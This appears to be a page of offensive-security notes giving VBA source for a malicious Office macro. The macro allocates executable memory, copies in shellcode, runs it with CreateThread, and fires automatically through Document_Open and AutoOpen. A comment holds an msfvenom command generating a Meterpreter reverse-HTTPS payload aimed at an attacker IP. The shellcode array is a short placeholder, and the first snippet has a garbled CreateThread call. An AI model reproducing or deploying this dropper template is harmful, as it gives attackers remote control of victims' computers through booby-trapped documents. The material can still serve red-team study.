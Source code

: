 **CreateThread**
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr


Function MyMacro()
    Dim res As Long
    
    res = CreateThread(addr + counter, data, 1)
End Function
```

**Collect all together**
```vb
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    'msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication'
    buf = Array(252, 232, 0, 83, 255, 213)

    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

 For counter = LBound(buf) To UBound(buf)
 data = buf(counter)
 res = RtlMoveMemory(addr + counter, data, 1)
 Next counter

 res = CreateThread(0, 0, addr, 0, 0, 0)
End Function
Sub Document_Open()
 MyMacro
End Sub
Sub AutoOpen()
 MyMacro
End Sub
```
